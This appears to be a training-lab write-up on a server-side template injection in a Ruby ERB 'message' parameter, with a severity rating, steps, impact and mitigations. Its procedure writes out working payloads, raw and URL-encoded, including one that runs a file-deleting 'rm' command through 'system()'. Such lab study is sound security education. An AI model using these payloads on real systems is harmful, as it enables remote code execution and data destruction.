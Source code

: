 

# SSTI 1. Basic server side template Injection Message Parameter

## 2. CVSS Score

**CVSS v3.1 Base Score: 7.1 (High)**
**CWE-94: Improper Control of Generation of Code ('Code Injection')**

---

## 3. OWASP Top 10 Reference

* **A03:2021 – Injection**

---

## 4. Description of Vulnerability

The application improperly handles the `message` parameter by rendering it directly in an ERB (Embedded Ruby) template without sanitization. This allows an attacker to inject and execute arbitrary Ruby code on the server side. The vulnerability enables an attacker to run OS commands, potentially leading to unauthorized file deletion or remote code execution.

---

## 5. Detailed Explanation of What We Performed

* Observed that the `message` parameter value is rendered on the home page.
* Tested basic ERB expression injection by inserting `<%= 7*7 %>`.
* The rendered page showed `49`, confirming server-side template evaluation.
* From Ruby documentation, identified the `system()` method to execute OS commands.
* Constructed payload `<%= system("rm /home/carlos/morale.txt") %>` to delete Carlos’s file.
* URL-encoded the payload and inserted it into the `message` parameter.
* Loaded the URL to successfully delete the file and solve the lab.

---

## 6. Step-by-Step Procedure

### Step 1: Verify SSTI Vulnerability

1. Navigate to the product page and observe the GET request with the `message` parameter.
2. Insert the payload:

```
<%= 7*7 %>
```

3. URL-encode the payload:

```
%3C%25%3d+7*7+%25%3E
```

4. Use the URL format replacing `YOUR-LAB-ID`:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=%3C%25%3d+7*7+%25%3E
```

5. Load the URL and observe the number `49` rendered instead of the message.

---

### Step 2: Exploit SSTI to Execute OS Command

6. From Ruby docs, use `system()` method to run OS commands.
7. Prepare payload to delete Carlos’s morale file:

```
<%= system("rm /home/carlos/morale.txt") %>
```

8. URL-encode the payload:

```
%3C%25+system("rm+/home/carlos/morale.txt")+%25%3E
```

9. Insert the payload in the URL:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=%3C%25+system("rm+/home/carlos/morale.txt")+%25%3E
```

10. Load the URL to delete the file and solve the lab.

---

## 7. Impact of the Vulnerability

* Allows arbitrary code execution on the server.
* Leads to file deletion, data loss, and potential full server compromise.
* Can be leveraged to execute further commands, exfiltrate data, or pivot within the network.

---

## 8. Recommendations and Mitigations

* Avoid rendering user input directly in templates without sanitization or escaping.
* Use safe template rendering mechanisms that separate code from data.
* Apply strict input validation and escaping to user-controlled inputs.
* Implement least privilege for application processes to limit damage from code injection.
* Monitor and log suspicious template rendering activities.

---

## 9. References

* [Ruby ERB Documentation](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB.html)
* [OWASP Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
* [PortSwigger Labs – Server-Side Template Injection](https://portswigger.net/web-security/template-injection)

